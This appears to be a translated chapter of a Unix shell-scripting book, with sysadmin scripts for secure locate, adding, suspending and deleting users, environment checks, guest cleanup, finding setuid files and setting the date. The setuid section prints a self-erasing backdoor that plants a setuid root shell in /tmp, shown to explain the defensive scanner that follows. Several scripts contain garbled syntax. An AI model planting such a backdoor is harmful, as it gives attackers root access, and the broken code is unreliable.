一个折中方案是为每个用户提供一个单独的 `.locatedb` 文件。这是一个不错的选择，因为只有实际使用 `locate` 命令的用户才需要个人数据库。一旦调用，系统会在用户的家目录中创建 `.locatedb` 文件，并且 cron 任务可以每晚更新现有的 `.locatedb` 文件以保持同步。当有人第一次运行安全的 `slocate` 脚本时，它会输出一条消息，警告他们可能只能看到公开可访问文件的匹配项。从第二天开始（取决于 cron 计划），用户将获得个性化的结果。

### 代码

实现一个安全的 `locate` 需要两个脚本：数据库构建器 `mkslocatedb`（如示例 5-11 所示）和实际的搜索实用程序 `slocate`（如示例 5-12 所示）。

```bash
#!/bin/bash

# mkslocatedb--以用户 nobody 身份构建中央公共 locate 数据库，
# 同时遍历每个用户的家目录，寻找包含 .slocatedb 文件的目录。
# 如果找到了，将为该用户创建另一个私有版本的 locate 数据库。
```

```bash
locatedb="/var/locate.db"
slocatedb=".slocatedb"

if [ "$(id -u)" != "0" ] ; then
    echo "$0: Error: You must be root to run this command." >&2
    exit 1
fi

if [ "$(grep '^nobody:' '/etc/passwd')" == "" ] ; then
    echo "$0: Error: you must have an account for user 'nobody'" >&2
    echo "to create the default slocate database." >&2
    exit 1
fi

cd /    # Sidestep post-su pwd permission problems.

# First Create or update the public database.
su - fm nobody -c "find / -print" > $locatedb 2>/dev/null
echo "building default slocate database (user = nobody)"
echo ... result is $(wc -l < $locatedb) lines long.

# Now step through the user accounts on the system to see who has
# a .slocatedb file in their home directory.
for account in $(cut -d : -f1 /etc/passwd)
do
    homedir="$(grep "^($account):" /etc/passwd | cut -d : -f6)"

    if [ "$homedir" == "/" ] ; then
        continue # Refuse to build one for root dir.
    elif [ -e $homedir/$slocatedb ] ; then
        echo "building slocate database for user $account"
        su -m $account -c "find / -print" > $homedir/$slocatedb \
        2>/dev/null
        chmod 600 $homedir/$slocatedb
        chown $account $homedir/$slocatedb
        echo ... result is $(wc -l < $homedir/$slocatedb) lines long.
    fi
done

exit 0
```

示例 5-11：`mkslocatedb` 脚本

`slocate` 脚本本身（见示例 5-12）是 `slocate` 数据库的用户界面。

```bash
#!/bin/bash
# slocate--Tries to search the user's own secure locatedb database for the
# specified pattern. If the pattern doesn't match, it means no database
# exists, so it outputs a warning and creates one. If personal .slocatedb
# is empty, it uses system database instead.

locatedb="/var/locate.db"
slocatedb="$HOME/.slocatedb"

if [ ! -e $slocatedb -o "$1" = "--explain" ] ; then
cat << "EOF" >&2
Warning: Secure locate keeps a private database for each user, and your
database hasn't yet been created. Until it is (probably late tonight),
I'll just use the public locate database, which will show you all
publicly accessible matches rather than those explicitly available to
account ${USER:-$LOGNAME}.
EOF
	if [ "$1" = "--explain" ] ; then
		exit 0
	fi
fi

# Before we go, create a .slocatedb file so that cron will fill it
# the next time the mkslocatedb script is run.

touch $slocatedb		# mkslocatedb will build it next time through.
chmod 600 $slocatedb	# Start on the right foot with permissions.

elif [ -s $slocatedb ] ; then	locatedb=$slocatedb
else
	echo "Warning: using public database. Use \"$0 --explain\" for details." >&2
fi

if [ -z "$1" ] ; then
	echo "Usage: $0 pattern" >&2
	exit 1
	fi

exec grep -i "$1" $slocatedb
```

示例 5-12：`slocate` 脚本，`mkslocatedb` 的配套脚本

### 工作原理

`mkslocatedb` 脚本的核心思想是：一个以 root 身份运行的进程可以通过使用 `su -fm user` ❶ 临时变为由不同的用户 ID 拥有。然后，它可以作为该用户在每个用户的文件系统中运行 `find`，从而创建用户特定的文件名数据库。然而，在这个脚本中使用 `su` 命令证明很棘手，因为默认情况下，`su` 不仅想要更改有效用户 ID，还想要导入指定账户的环境变量。除非指定 `-m` 标志（该标志可防止导入用户环境），否则在几乎任何 Unix 系统上最终都会产生奇怪且令人困惑的错误消息。`-f` 标志则是额外的保险，用于绕过任何 csh 或 tcsh 用户的 `.cshrc` 文件。

❷ 处的另一个不寻常的符号是 `2>/dev/null`，它将所有错误消息直接路由到所谓的“比特桶（bit bucket）”中：任何重定向到 `/dev/null` 的内容都会消失得无影无踪。这是一个简单的办法，可以跳过每次调用 `find` 函数时不可避免的大量“权限不足（permission denied）”错误消息。

### 运行脚本

`mkslocatedb` 脚本比较特殊，它不仅必须以 root 身份运行，而且使用 `sudo` 也不行。在运行该脚本之前，你需要直接以 root 身份登录，或者使用功能更强大的 `su` 命令变成 root。这是因为 `su` 实际上会将你切换到 root 用户以运行脚本，而 `sudo` 只是授予当前用户 root 权限。`sudo` 在文件上设置的权限可能与 `su` 不同。当然，`slocate` 脚本没有此类要求。

### 结果

在 Linux 机器上为 nobody（公共数据库）和用户 taylor 构建 `slocate` 数据库会产生如示例 5-13 所示的输出。

```
# mkslocatedb
building default slocate database (user = nobody)
... result is 99809 lines long.
building slocate database for user taylor
... result is 99808 lines long.
```

示例 5-13：以 root 身份运行 `mkslocatedb` 脚本

为了搜索匹配给定模式的特定文件或一组文件，让我们先尝试以用户 tintin（他没有 `.slocatedb` 文件）的身份运行：

```
tintin $ slocate Taylor-Self-Assess.doc
Warning: using public database. Use "slocate --explain" for details.
$
```

现在我们输入同样的命令，但以拥有被搜索文件的用户 taylor 的身份运行：

```
taylor $ slocate Taylor-Self-Assess.doc
/Users/taylor/Documents/Merrick/Taylor-Self-Assess.doc
```

### 优化脚本

如果你有一个非常大的文件系统，这种方法可能会消耗相当大的空间。解决这个问题的一种方法是确保单个 `.slocatedb` 数据库文件不包含同样出现在中央数据库中的条目。这需要更多的前置处理（对两者进行排序然后执行 diff，或者在搜索个人用户文件时直接跳过 `/usr` 和 `/bin`），但这在节省空间方面可能会有所回报。

另一种节省空间的技巧是，在构建单个 `.slocatedb` 文件时，仅引用自上次更新以来被访问过的文件。如果 `mkslocatedb` 脚本每周运行一次而非每天运行，这种方法效果更好；否则，由于用户在周末不太可能运行 `slocate` 命令，每个周一所有用户都将回到原点。

最后，另一种简单的省空间方法是将 `.slocatedb` 文件保持压缩状态，并在使用 `slocate` 搜索时实时解压。关于如何实现这一点，可以参考第 109 页脚本 #33 中的 `zgrep` 命令获取灵感。

## #40 向系统添加用户

如果你负责管理一个 Unix 或 Linux 系统网络，你一定已经体验过由于你管辖范围内的操作系统之间存在细微的不兼容而带来的挫败感。一些最基础的管理任务在不同版本的 Unix 之间证明是最不兼容的，其中最主要的就是用户账户管理。各厂商并没有开发一个在所有 Linux 版本中 100% 一致的单一命令行界面，而是开发了自己的图形界面来处理其系统的特殊性。

简单网络管理协议（SNMP）表面上应该是为了帮助规范化这类事情，但在异构计算环境中，管理用户账户现在与十年前一样困难。因此，对于系统管理员来说，一套非常有用的脚本应该包括可根据你的具体需求进行定制，并能轻松移植到所有 Unix 系统的 `adduser`、`suspenderuser` 和 `deleteuser` 版本。我们在这里向你展示 `adduser`，并在接下来的两个脚本中涵盖 `suspenderuser` 和 `deleteuser`。

**注意**：OS X 是这一规则的例外，它依赖于一个独立的用户账户数据库。为了保持理智，请直接使用这些命令的 Mac 版本，不要试图去弄清楚它们向管理员提供的那些极其复杂的命令行访问方式。

在 Linux 系统上，创建账户是通过在 `/etc/passwd` 文件中添加一个唯一条目来实现的，该条目由一个 1 到 8 个字符的账户名、一个唯一的用户 ID、一个组 ID、一个主目录以及该用户的登录 shell 组成。现代系统将加密后的密码值存储在 `/etc/shadow` 中，因此必须在该文件中也添加一个新用户条目。最后，账户需要列在 `/etc/group` 文件中，用户可以作为自己的组（本脚本实现策略）或作为现有组的一部分。示例 5-14 展示了我们如何完成所有这些步骤。

### 代码

```bash
#!/bin/bash

# adduser--Adds a new user to the system, including building their
# home directory, copying in default config data, etc.
# For a standard Unix/Linux system, not OS X.

pwfile="/etc/passwd"
shadowfile="/etc/shadow"
```


```bash
gfile="/etc/group"
hdir="/home"

if [ "$(id -un)" != "root" ] ; then
    echo "Error: You must be root to run this command." >&2
    exit 1
fi

echo "Add new user account to $(hostname)"
/bin/echo -n "login: " ; read login

# The next line sets the highest possible user ID value to 5000,
# but you should adjust this number to match the top end
# of your user ID range.
uid=`echo "$(awk -F: '{ if (big < $3 && $3 < 5000) big=$3 } END { print big + 1 }'\n $pwfile)`
homedir=$hdir/$login

# We are giving each user their own group.
gid=$uid

/bin/echo -n "full name: " ; read fullname
/bin/echo -n "shell: " ; read shell

echo "Setting up account $login for $fullname..."

echo ${login}:x:$uid:$gid:$fullname:$homedir:$shell >> $pwfile
echo ${login}:"":11647:0:99999:7::: >> $shadowfile

echo "${login}:x:$gid:${login}" >> $gfile

mkdir $homedir
cp -R /etc/skel/[a-zA-Z]* $homedir
chmod 755 $homedir
chown -R ${login}:$gid $homedir

# Setting an initial password
exec passwd $login
```

代码清单 5-14：adduser 脚本

#### 工作原理

这个脚本中最酷的一行在 ❶ 处。它扫描`/etc/passwd`文件，以找出当前正在使用的、且小于最高允许用户账户值的最大用户 ID（本脚本使用 5000，但你应该根据自己的配置进行调整），然后将其加 1 作为新账户的用户 ID。这使得管理员无需记住下一个可用 ID 是多少，而且随着用户群体的发展和变化，它在账户信息方面提供了高度的一致性。

脚本使用该用户 ID 创建一个账户。然后它创建该账户的主目录，并将`/etc/skel`目录的内容复制进去。按照惯例，`/etc/skel`目录是存放主`.cshrc`、`.login`、`.bashrc`和`.profile`文件的地方；在提供“账户服务”的 Web 服务器站点上，像`/etc/skel/public_html`这样的目录也会被复制到新的主目录中。如果你的组织为工程师或开发人员提供带有特殊 bash 配置的 Linux 工作站或账户，这将非常有用。

#### 运行脚本

该脚本必须由 root 运行，且没有启动参数。

#### 运行结果

我们的系统已经有一个名为 tintin 的账户，所以我们要确保 snowy¹ 也有自己的账户（如代码清单 5-15 所示）。

```text
$ sudo adduser
Add new user account to aurora
login: snowy
full name: Snowy the Dog
shell: /bin/bash
Setting up account snowy for Snowy the Dog...
Changing password for user snowy.
New password:
Retype new password:
passwd: all authentication tokens updated successfully.
```

代码清单 5-15：测试 adduser 脚本

#### 修改脚本

使用自定义 adduser 脚本的一个显著优势是，你可以添加代码并更改某些操作的逻辑，而无需担心操作系统升级会覆盖这些修改。可能的修改包括：自动发送一封概述使用指南和在线帮助选项的欢迎邮件，自动打印一份可发送给用户的账户信息表，在邮件`aliases`文件中添加`firstname_lastname`或`firstname.lastname`别名，甚至将一组文件复制到账户中，以便所有者可以立即开始团队项目工作。

### #41 暂停用户账户

无论是用户因工业间谍活动被护送离开办公区，还是学生在放暑假，亦或是承包商处于休假状态，在许多情况下，禁用账户而不将其从系统中实际删除是非常有用的。

> 1. 想知道我们在这里到底在谈论什么？这是埃尔热（Hergé）创作的《丁丁历险记》（The Adventures of Tintin），一套来自 20 世纪中叶的精彩插画冒险系列。请参阅 http://www.tintin.com/。

这可以通过简单地将用户的密码更改为一个他们不知道的新值来实现，但如果用户当时已登录，将他们注销并关闭系统上其他账户对该主目录的访问同样重要。当一个账户被暂停时，极有可能用户需要**立即**离开系统，而不是在他们觉得合适的时候离开。

代码清单 5-16 中的大部分脚本都围绕着确认用户是否已登录、通知用户他们将被注销以及将用户踢出系统而展开。

#### 代码

```bash
#!/bin/bash

# suspenduser--Suspends a user account for the indefinite future

homedir="/home"                # Home directory for users
secs=10                         # Seconds before user is logged out

if [ -z $1 ] ; then
    echo "Usage: $0 account" >&2
    exit 1
elif [ "$(id -un)" != "root" ] ; then
    echo "Error. You must be 'root' to run this command." >&2
    exit 1
fi

echo "Please change the password for account $1 to something new."
passwd $1

# Now let's see if they're logged in, and, if so, boot 'em.
if who|grep "$1" > /dev/null ; then

    for tty in $(who | grep $1 | awk '{print $2}') ; do

        cat << "EOF" > /dev/$tty

**************************************************************************

URGENT NOTICE FROM THE ADMINISTRATOR:

This account is being suspended, and you are going to be logged out
in $secs seconds. Please immediately shut down any processes you
have running and log out.

If you have any questions, please contact your supervisor or
John Doe, Director of Information Technology.

**************************************************************************

EOF
    done

    echo "(Warned $1, now sleeping $secs seconds)"

    sleep $secs

jobs=$(ps -u $1 | cut -d\  -f1)

kill -s HUP $jobs   # Send hangup sig to their processes.
sleep 1              # Give it a second...
kill -s KILL $jobs > /dev/null 2>&1 # and kill anything left.

echo "$1 was logged in. Just logged them out."
fi

# Finally, let's close off their home directory from prying eyes.
chmod 000 $homedir/$1

echo "Account $1 has been suspended."

exit 0
```

代码清单 5-16：suspenduser 脚本

#### 工作原理

该脚本将用户的密码更改为用户未知的值，然后关闭用户的主目录。如果他们已登录，我们会给出几秒钟的警告，然后通过杀死其所有运行中的进程来强制用户注销。

注意脚本是如何向每个运行中的进程发送 SIGHUP (HUP) 挂断信号 ❶，然后等待一秒钟再发送更强力的 SIGKILL (KILL) 信号 ❷ 的。SIGHUP 信号会退出运行中的应用程序——但并非总是如此，而且它不会杀死登录 shell。然而，SIGKILL 信号无法被忽略或阻塞，因此保证 100% 有效。尽管如此，它并非首选，因为它没有给应用程序时间来清理临时文件、刷新文件缓冲区以确保更改写入磁盘等等。

恢复用户账户是一个简单的两步过程：重新打开他们的主目录（使用`chmod 700`）并将密码重置为已知值（使用`passwd`）。

#### 运行脚本

该脚本必须以 root 身份运行，且有一个参数：要暂停的账户名称。

#### 运行结果

事实证明 snowy 已经在滥用他的账户了。让我们暂停他，如代码清单 5-17 所示。

```text
$ sudo suspenduser snowy
Please change the password for account snowy to something new.
Changing password for user snowy.
New password:
Retype new password:
passwd: all authentication tokens updated successfully.
(Warned snowy, now sleeping 10 seconds)
snowy was logged in. Just logged them out.
Account snowy has been suspended.
```

代码清单 5-17：在用户 snowy 上测试 suspender 脚本

由于 snowy 当时处于登录状态，代码清单 5-18 显示了他在被踢出系统前几秒在屏幕上看到的内容。

```text
********************************************************************************
URGENT NOTICE FROM THE ADMINISTRATOR:

This account is being suspended, and you are going to be logged out
in 10 seconds. Please immediately shut down any processes you
have running and log out.

If you have any questions, please contact your supervisor or
John Doe, Director of Information Technology.
********************************************************************************
```

代码清单 5-18：用户被暂停前打印在其终端上的警告

### #42 删除用户账户

删除账户比暂停账户要复杂一些，因为脚本在从`/etc/passwd`和`/etc/shadow`中删除账户信息之前，需要检查整个文件系统以查找该用户拥有的文件。代码清单 5-19 确保用户及其数据从系统中被完全删除。它要求之前的 suspender 脚本位于当前的 PATH 中。

#### 代码

```bash
#!/bin/bash

# deleteuser--Deletes a user account without a trace.
# Not for use with OS X.

homedir="/home"
pwfile="/etc/passwd"
shadow="/etc/shadow"
newpwfile="/etc/passwd.new"
newshadow="/etc/shadow.new"
suspend="$(which suspender)"
locker="/etc/passwd.lock"

if [ -z $1 ]; then
    echo "Usage: $0 account" >&2
    exit 1
elif [ "$(whoami)" != "root" ]; then
    echo "Error: you must be 'root' to run this command.">&2
    exit 1
fi
```

```bash
$suspend $1	# 在我们执行清理工作时，先暂停其账户。

uid="$(grep -E "^($1):". "$pwfile" | cut -d: -f3)"

if [ -z $uid ] ; then
	echo "Error: no account $1 found in $pwfile" >&2
	exit 1
fi

# 从密码文件和 shadow 文件中删除用户。
grep -vE "^($1):". "$pwfile" > $newpwfile
grep -vE "^($1):". "$shadow" > $newshadow

lockcmd="$(which lockfile)"	# 在路径中查找 lock file 程序。
if [ ! -z $lockcmd ] ; then	# 让我们使用系统的 lockfile。
	eval $lockcmd -r 15 $locker
else
	# 糟糕，得由我们自己来处理。
	while [ -e $locker ] ; do
		echo "waiting for the password file" ; sleep 1
	done
	touch $locker		# 创建一个基于文件的锁。
fi

mv $newpwfile $pwfile
mv $newshadow $shadow
rm -f $locker		# 咔哒！再次解锁。

chmod 644 $pwfile
chmod 400 $shadow

# 现在删除主目录并列出任何剩余文件。
rm -rf $homedir/$1

echo "Files still left to remove (if any):"
find / -uid $uid -print 2>/dev/null | sed 's/^/ / '

echo ""
echo "Account $1 (uid $uid) has been deleted, and their home directory "
echo "($homedir/$1) has been removed."

exit 0
```

代码清单 5-19：deleteuser 脚本

#### 工作原理

为了避免在脚本运行期间待暂停用户的账户发生任何更改，`deleteuser`执行的第一项任务就是通过调用`suspenduser`来暂停用户账户。

在修改密码文件之前，如果可用，该脚本会使用`lockfile`程序对其进行锁定。或者，在 Linux 上，你也可以考虑使用`flock`工具来创建文件锁。如果不可用，脚本将回退到一种相对原始的信号量锁定机制，通过创建`/etc/passwd.lock`文件来实现。如果锁文件已经存在，该脚本将等待它被另一个程序删除；一旦文件消失，`deleteuser`会立即创建它并继续执行，在完成后将其删除。

#### 运行脚本

此脚本必须以 root 身份运行（使用`sudo`），并且需要将要删除的账户名称作为命令行参数。代码清单 5-20 展示了在用户`snowy`上运行该脚本的情况。

> **警告** 此脚本是不可逆的，会导致大量文件消失，因此如果你想尝试运行它，请务必小心！

#### 运行结果

```text
$ sudo deleteuser snowy
Please change the password for account snowy to something new.
Changing password for user snowy.
New password:
Retype new password:
passwd: all authentication tokens updated successfully.
Account snowy has been suspended.
Files still left to remove (if any):
/var/log/dogbone.avi

Account snowy (uid 502) has been deleted, and their home directory
(/home/snowy) has been removed.
```

代码清单 5-20：在用户`snowy`上测试`deleteuser`脚本


那个狡猾的`snowy`在`/var/log`中隐藏了一个 AVI 文件（`dogbone.avi`）。幸运的是我们注意到了——天知道那可能是什么？

## 改进脚本

这个`deleteuser`脚本是刻意写得不完整的。你应该决定采取哪些额外步骤——是压缩并存档账户文件的最终副本，将它们写入磁带，在云服务上备份，刻录到 DVD-ROM，甚至直接寄给 FBI（希望最后这个我们只是在开玩笑）。此外，还需要从`/etc/group`文件中删除该账户。如果用户主目录之外存在零散文件，`find`命令会识别它们，但仍需由系统管理员根据情况检查并删除每一个文件。

对该脚本的另一个有用补充将是增加一个“干跑”（dry-run）模式，让你在实际执行用户删除之前，能够看到脚本将从系统中删除哪些内容。

## #43 验证用户环境

由于人们会将登录、配置文件和其他 shell 环境定制从一个系统迁移到另一个系统，这些设置逐渐失效是很常见的；最终，`PATH`可能会包含系统中不存在的目录，`PAGER`可能会指向一个不存在的二进制文件，甚至更糟。

解决此问题的一种成熟方案是首先检查`PATH`，确保它仅包含系统中有效的目录，然后检查每个关键的辅助应用程序设置，确保它们要么指向一个存在且绝对路径的文件，要么指定了一个位于`PATH`中的二进制文件。详情见代码清单 5-21。

### 代码实现

```bash
#!/bin/bash
# validator--确保 PATH 仅包含有效目录
# 然后检查所有环境变量是否有效。
# 检查 SHELL, HOME, PATH, EDITOR, MAIL, 和 PAGER。

errors=0

# 包含脚本 #1 中的 in_path() 函数。
source library.sh

validate()
{
    varname=$1
    varvalue=$2

    if [ ! -z $varvalue ] ; then
        if [ "${varvalue%${varvalue#?}}" = "/" ] ; then
            if [ ! -x $varvalue ] ; then
                echo "** $varname set to $varvalue, but I cannot find executable."
                errors=$(( $errors + 1 ))
            fi
        else
            if ! in_path $varvalue $PATH ; then
                echo "** $varname set to $varvalue, but I cannot find it in PATH."
                errors=$(( $errors + 1 ))
            fi
        fi
    fi
}

# 主脚本开始
# =====================

if [ ! -x ${SHELL:?"Cannot proceed without SHELL being defined." } ] ; then
    echo "** SHELL set to $SHELL, but I cannot find that executable."
    errors=$(( $errors + 1 ))
fi

if [ ! -d ${HOME:?"You need to have your HOME set to your home directory"} ]
then
    echo "** HOME set to $HOME, but it's not a directory."
    errors=$(( $errors + 1 ))
fi

# 第一个有趣测试：PATH 中的所有路径都有效吗？

oldIFS=$IFS; IFS=":" # IFS 是字段分隔符。我们将其更改为 ':'。

for directory in $PATH
do
    if [ ! -d $directory ]; then
        echo "** PATH contains invalid directory $directory."
        errors=$(( $errors + 1 ))
    fi
done

IFS=$oldIFS    # 为脚本其余部分恢复原值。

# 以下变量应当 each 是一个绝对路径，
# 但它们可能是未定义或仅是一个程序名。
# 根据你的站点和用户群体需要添加额外的变量。

validate "EDITOR" $EDITOR
validate "MAILER" $MAILER
validate "PAGER" $PAGER

# 最后，根据 errors 是否大于 0 输出不同的结束语

if [ $errors -gt 0 ]; then
    echo "Errors encountered. Please notify sysadmin for help."
else
    echo "Your environment checks out fine."
fi

exit 0
```

代码清单 5-21：`validator`脚本

### 工作原理

该脚本执行的测试并不复杂。为了检查`PATH`中的所有目录是否有效，代码会遍历每个目录以确保其存在。请注意，必须将内部字段分隔符（`IFS`）更改为冒号，这样脚本才能正确遍历所有`PATH`目录。按照惯例，`PATH`变量使用冒号来分隔其各个目录：

```text
$ echo $PATH
/bin/:/sbin:/usr/bin:/sw/bin:/usr/X11R6/bin:/usr/local/mybin
```

为了验证环境变量的值是否有效，`validate()`函数会检查每个值是否以`/`开头。如果是，函数会检查该变量是否为可执行文件。如果不是以`/`开头，脚本将调用从第 11 页脚本 #1 开始的库中导入的`in_path()`函数，以查看该程序是否在当前`PATH`的某个目录中。

此脚本最不寻常之处在于它在某些条件语句中使用默认值以及使用了变量切片。在条件语句中使用默认值的例子是`${SHELL:?"Cannot proceed without SHELL being defined."}`。记号`${varname:?"ErrorMessage"}`可以理解为“如果`varname`存在，则替换为其值；否则，报错并输出`ErrorMessage`”。

`validate()`函数中使用的变量切片记号`${varvalue%${varvalue#?}}`是 POSIX 子字符串函数，它仅产生变量的第一个字符。在本脚本中，它用于判断环境变量是否具有绝对文件名（以`/`开头并指定二进制文件路径的文件名）。

如果你的 Unix/Linux 版本不支持这些记号，可以用简单的方式替换。例如，可以用以下内容代替`${SHELL:?No Shell}`：

```bash
if [ -z "$SHELL" ] ; then
  echo "No Shell" >&2; exit 1
fi
```

而用以下代码可以达到与`${varvalue%${varvalue#?}}`相同的效果：

```bash
$(echo $varvalue | cut -c1)
```

### 运行脚本

这是用户可以运行以检查其自身环境的代码。如代码清单 5-22 所示，不需要启动参数。

### 运行结果

```text
$ validator
** PATH contains invalid directory /usr/local/mybin.
** MAILER set to /usr/local/bin/elm, but I cannot find executable.
Errors encountered. Please notify sysadmin for help.
```

代码清单 5-22：测试`validator`脚本

## #44 客访离开后的清理工作

虽然出于安全原因，许多站点禁用了`guest`用户，但有些站点确实设有`guest`账户（通常带有极其简单的密码），以便让客户或其他部门的人员访问网络。这是一个很有用的账户，但有一个大问题：由于多人共享同一个账户，很容易有人给下一个用户留下混乱的局面——也许他们一直在尝试某些命令，编辑`.rc`文件，添加子目录，等等。

代码清单 5-23 中的这个脚本通过在用户退出访客账户时每次清理账户空间来解决这个问题。它会删除任何新创建的文件或子目录，移除所有点文件（dotfiles），并重建官方账户文件，这些文件的副本存储在访客账户`.template`目录下的一个只读存档中。

### 代码

```bash
#!/bin/bash

# fixguest--Cleans up the guest account during the logout process

# Don't trust environment variables: reference read-only sources.

iam=$(id -un)
myhome=$(grep "^${iam}:"; /etc/passwd | cut -d: -f6)

# *** Do NOT run this script on a regular user account!

if [ "$iam" != "guest" ] ; then
    echo "Error: you really don't want to run fixguest on this account." >&2
    exit 1
fi

if [ ! -d $myhome/..template ] ; then
    echo "$0: no template directory found for rebuilding." >&2
    exit 1
fi

# Remove all files and directories in the home account.

cd $myhome
rm -rf * $(find . -name ".[a-zA-Z0-9]*" -print)

# Now the only thing present should be the ..template directory.

cp -Rp ..template/* .
exit 0
```

代码清单 5-23：`fixguest`脚本

### 工作原理

为了使该脚本正常工作，你需要在访客主目录下创建一个名为`.template`的新目录，并在其中放置一套主模板文件和目录。将`.template`目录的权限改为只读，然后确保`.template`内部的所有文件和目录对访客用户（`guest`）拥有正确的所有权和权限。

### 运行脚本

运行`fixguest`脚本的一个逻辑时间是在注销时，通过在`.logout`文件中调用它（这在大多数 shell 中有效，但并非全部）。此外，如果登录脚本能输出如下消息，无疑会为你省去许多来自用户的抱怨：

> 注意：所有文件在注销后将立即从访客账户中清除，因此请不要在这里保存任何你需要的文件。如果你想保存某些内容，请将其发送到你的主账户邮箱。你已被警告！

然而，由于某些访客用户可能足够精通地去篡改`.logout`文件，因此通过`cron`来调用`fixguest`脚本也是值得的。只需确保运行该脚本时没有用户登录该账户即可！

### 运行结果

运行此程序没有可见的结果，唯一的结果是访客主目录被还原，镜像了`.template`目录中的布局和文件。

# 6 系统管理：系统维护

**Shell 脚本最常见的用途是辅助 Unix 或 Linux 系统管理。当然，这有一个显而易见的原因：管理员通常是系统中知识最丰富的用户，他们还负责确保系统运行顺畅。**

但在系统管理领域如此强调 Shell 脚本可能还有一个额外原因。我们的理论是：系统管理员和其他高级用户是最可能在系统上寻找乐趣的人，而在 Unix 环境下开发 Shell 脚本是非常有趣的事情！

那么，让我们继续探索 Shell 脚本如何帮助你完成系统管理任务。

## 45 追踪 Set User ID 应用程序

歹徒和数字罪犯有相当多地潜入 Linux 系统的方法，无论他们是否拥有账户，其中最简单的方法之一就是寻找保护不当的 setuid 或 setgid 命令。正如前几章所讨论的，这些命令会根据配置改变其调用任何子命令时的有效用户，因此普通用户可能会运行一个脚本，而该脚本中的命令是以 root 或超级用户身份运行的。这很糟糕，而且危险！

例如，在一个 setuid shell 脚本中，添加以下代码可以在不设防的 root 管理员调用该代码后，为坏人创建一个 setuid root shell。

```bash
if [ "${USER:-$-LOGNAME}" = "root" ]; then # REMOVE ME
cp /bin/sh /tmp/.rootshell # REMOVE ME
chown root /tmp/.rootshell # REMOVE ME
chmod 4777 /tmp/.rootshell # REMOVE ME
grep -v "# REMOVE" $0 > /tmp/junk # REMOVE ME
mv /tmp/junk $0 # REMOVE ME
fi # REMOVE ME
```

一旦该脚本被 root 无意中运行，`/bin/sh`的一个副本就会被秘密地复制到`/tmp`下并命名为`.rootshell`，并被设置为 setuid root，供黑客随意利用。然后，脚本会使自身被重写以删除条件代码（因此每行末尾都有`# REMOVE ME`），基本上不留任何黑客操作的痕迹。

刚才显示的这段代码在任何以 root 为有效用户 ID 运行的脚本或命令中都可以被利用；因此，确保你了解并批准系统中所有 setuid root 命令至关重要。当然，正因为这个原因，你绝不应该为脚本设置任何形式的 setuid 或 setgid 权限，但时刻保持警惕依然是明智的。

然而，比起教你如何破解系统，更有用的方案是展示如何识别系统中所有被标记为 setuid 或 setgid 的 shell 脚本！代码清单 6-1 详细介绍了如何实现这一点。

### 代码

```bash
#!/bin/bash

# findsuid--Checks all SUID files or programs to see if they're writeable,
# and outputs the matches in a friendly and useful format

mtime="7"
verbose=0

if [ "$1" = "-v" ] ; then
    verbose=1
fi

# find -perm looks at the permissions of the file: 4000 and above
# are setuid/setgid.

find / -type f -perm +4000 -print0 | while read -d ' ' -r match
do
    if [ -x "$match" ] ; then

        # Let's split file owner and permissions from the ls -ld output.

        owner="$(ls -ld $match | awk '{print $3}')"
        perms="$(ls -ld $match | cut -c5-10 | grep 'w')"

        if [ ! -z $perms ] ; then
            echo "**** $match (writable and setuid $owner)"
        elif [ -z $(find $match -mtime -smtime -print) ] ; then
            echo "**** $match (modified within $mtime days and setuid $owner)"
        elif [ $verbose -eq 1 ] ; then
            # By default, only dangerous scripts are listed. If verbose, show all.
            lastmod="$(ls -ld $match | awk '{print $6, $7, $8}')"
            echo " $match (setuid $owner, last modified $lastmod)"
        fi
    fi
done

exit 0
```

代码清单 6-1：`findsuid`脚本

### 工作原理

该脚本检查系统中所有 setuid 命令，查看它们是否对组或所有人可写，以及它们在最近`$mtime`天内是否被修改过。为了实现这一点，我们使用了`find`命令，并带有指定搜索文件权限类型的参数。如果用户请求详细输出（verbose），无论读写权限和修改日期如何，所有具有 setuid 权限的脚本都将被列出。

### 运行脚本

此脚本有一个可选参数：`-v`产生详细输出，列出脚本遇到的每个 setuid 程序。此脚本应以 root 身份运行，但也可以由任何用户运行，因为每个人都应该拥有对关键目录的基本访问权限。

### 运行结果

我们在系统的某个地方放置了一个有漏洞的脚本。让我们看看`findsuid`能否在代码清单 6-2 中找到它。

```bash
$ findsuid
**** /var/tmp/.sneaky/editme (writeable and setuid root)
```

代码清单 6-2：运行`findsuid` shell 脚本并发现后门 shell 脚本

就在这里（代码清单 6-3）！


```bash
$ ls -l /var/tmp/.sneaky/editme
-rwsr-xr-x 1 root wheel 25988 Jul 13 11:50 /var/tmp/.sneaky/editme
```

代码清单 6-3：`ls` 后门文件的输出，显示权限中的 `s`，这意味着它是 `setuid`

这是一个巨大的漏洞，正等着被人利用。很高兴我们找到了它！

### 46 设置系统日期

简洁性是 Linux 及其 Unix 前身之核心，并极大地影响了 Linux 的演进。但在某些领域，这种简洁会让系统管理员发疯。最常见的困扰之一就是重置系统日期所需的格式，如 `date` 命令所示：

```text
usage: date [[[([[cc]yy]mm[dd]hh]hh]mm[.ss]
```

试图弄清楚所有方括号可能会让人晕头转向，更不用说哪些需要指定，哪些不需要。我们来解释一下：你可以只输入分钟；或者分钟和秒；或者时、分、秒；或者月份加上所有这些——或者你可以添加年份甚至世纪。是的，太疯狂了！与其尝试弄清楚这些，不如使用像代码清单 6-4 中的 shell 脚本，它会提示输入每个相关字段，然后构建压缩的日期字符串。这绝对能让你保持理智。

#### 代码

```bash
#!/bin/bash
# setdate--Friendly frontend to the date command
# Date wants: [[[([[cc]yy]mm[dd]hh]hh]mm[.ss]

# To make things user-friendly, this function prompts for a specific date
# value, displaying the default in [] based on the current date and time.

. library.sh # Source our library of bash functions to get echon().

askvalue()
{
  # $1 = field name, $2 = default value, $3 = max value,
  # $4 = required char/digit length

  echon "[$1 [$2] : "
  read answer
}
```

```bash
if [ ${answer:=%s2} -gt $3 ] ; then
    echo "$0: $1 $answer is invalid"
    exit 0
elif [ "$(( $(echo ${answer | wc -c}) - 1 ))" -lt $4 ] ; then
    echo "$0: $1 $answer is too short: please specify $4 digits"
    exit 0
fi
eval $1=$answer # Reload the given variable with the specified value.
}
```

```bash
② eval $(date "+%Y=%year+%m=%m %d=%day %H=%H %M=%M")
```

```bash
askvalue year $nyear 3000 4
askvalue month $nmon 12 2
askvalue day $nday 31 2
askvalue hour $nhr 24 2
askvalue minute $nmin 59 2
```

```bash
squished="${year}${month}${day}${hour}${minute}"
```

```bash
# Or, if you're running a Linux system:
③ # squished="${month}${day}${hour}${minute}${year}"
   # Yes, Linux and OS X/BSD systems use different formats. Helpful, eh?
```

```bash
